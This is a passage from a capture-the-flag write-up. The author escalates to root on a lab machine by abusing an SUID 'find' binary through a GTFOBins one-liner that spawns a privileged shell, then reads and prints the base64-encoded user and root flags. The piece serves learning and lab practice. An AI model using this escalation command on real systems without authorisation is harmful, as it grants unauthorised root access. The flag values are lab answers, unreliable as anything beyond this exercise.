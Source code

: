 I checked on [GTFOBins](https://gtfobins.github.io/) to see if any of the above programs had exploits. I found that the find command had an SUID vulnerability:
	
```
./find . -exec /bin/sh -p \; -quit
```

I moved myself to the **/usr/bin** directory, and executed the above command. This command uses the **find** program, which on this machine, runs with root privileges. It then uses the **-exec** flag to execute a bash shell. It then quits the **find** command.

After running the above command, I found myself with a root shell! Well, that's one way to get a User Flag!

Since I have root privileges, I performed **cat /home/c0ldd/user.txt**:
	
```
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
```

That is our User Flag!

I then ran another find command to find the root flag:
	
```
find / -type f -name 'root.txt' 
```

and got **/root/root.txt**, here are the contents:
	
```
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
```

That's our root flag! Thank you for reading, I hope you found this helpful.
